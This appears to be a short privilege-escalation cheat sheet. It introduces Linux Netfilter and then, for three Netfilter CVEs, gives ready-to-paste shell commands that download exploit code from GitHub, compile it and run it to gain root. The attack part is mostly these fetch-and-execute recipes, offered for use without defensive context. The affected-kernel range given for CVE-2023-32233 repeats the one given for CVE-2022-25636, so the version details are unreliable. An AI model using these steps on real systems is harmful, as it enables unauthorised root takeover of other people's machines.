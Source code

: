 ## What is Netfilter?

**Netfilter** is a powerful part of the **Linux kernel** used to control network traffic. Think of it like a **traffic cop** for network data (packets). It decides what goes in, what goes out, and what should be blocked or changed.

Netfilter powers tools like:

- `iptables`
- `nftables`
- `arptables`

These tools are like rulebooks for how to handle different types of network traffic.

## What Does Netfilter Do?

Netfilter has 3 main jobs:

1. **Packet Defragmentation** – Reassembles data packets into complete messages.
2. **Connection Tracking** – Keeps track of network connections.
3. **Network Address Translation (NAT)** – Changes source or destination IP addresses (like when using internet sharing).
## Why Is Netfilter Important for Privilege Escalation?

Netfilter runs **inside the kernel**, the brain of the operating system. So, **if there’s a bug in Netfilter**, and you exploit it, you can gain **root access** — the highest privilege level in Linux.

## Real Vulnerabilities in Netfilter

### CVE-2021-22555

Vulnerable kernel versions: 2.6 - 5.11
```bash
# Download
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
# Compile
gcc -m32 -static exploit.c -o exploit
#Run
./exploit
```

### CVE-2022-25636

Vulnerable kernel 5.4 through 5.6.10

```bash

git clone https://github.com/Bonfee/CVE-2022-25636.git
cd CVE-2022-25636
make
./exploit
```

### CVE-2023-32233

Vulnerable kernel 5.4 through 5.6.10

```bash
git clone https://github.com/Liuk3r/CVE-2023-32233
cd CVE-2023-32233
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
./exploit
```